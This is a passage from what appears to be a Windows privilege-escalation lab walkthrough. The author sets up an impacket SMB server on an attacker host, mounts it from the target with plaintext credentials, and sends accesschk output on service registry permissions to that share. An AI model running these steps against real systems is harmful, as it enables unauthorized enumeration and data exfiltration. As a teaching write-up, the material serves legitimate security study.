 ```shell
```

Based on the output above, we have writable permissions to the executable of the service named `SecurityService`. We will set up an SMB server on the attacker host and authenticate to the SMB service.

```shell
❯ sudo impacket-smbserver share . -smb2support -username low -password 'p@ssw0rd'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
```

Now we're gonna authenticate to the SMB service:

```powershell
PS C:\Users\user> $pass = ConvertTo-SecureString 'p@ssw0rd' -AsPlainText -Force

PS C:\Users\user> $cred = New-Object System.Management.Automation.PSCredential('low', $pass)

PS C:\Users\user> New-PSDrive -Name "share" -PSProvider "FileSystem" -Root "\\192.168.119.130\share" -Credential $cred

Name           Used (GB)     Free (GB) Provider      Root                                                                                                                              CurrentLocation
----           ---------     --------- --------      ----                                                                                                                              ---------------
share                                  FileSystem    \\192.168.119.130\share

```

We can view the permissions of the service using the `accesschk` tool:

```powershell
PS C:\Users\user> C:\Tools\SysinternalsSuite\accesschk.exe /accepteula -kvuqsw "HKLM\System\CurrentControlSet\Services" >> \\192.168.119.130\share\services.txt
```

The `services.txt` file should have stored the output of the previous command and it should have returned us the permissions we have for the target service:

```txt
HKLM\System\CurrentControlSet\Services\EventLog\Application\SecurityService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Administrators
	KEY_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
	KEY_ALL_ACCESS

HKLM\System\CurrentControlSet\Services\SecurityService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Administrators
	KEY_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
	KEY_ALL_ACCESS
```

The output indicates that only the Administrators group and the NT AUTHORITY\SYSTEM have full access to the registry keys of this service.
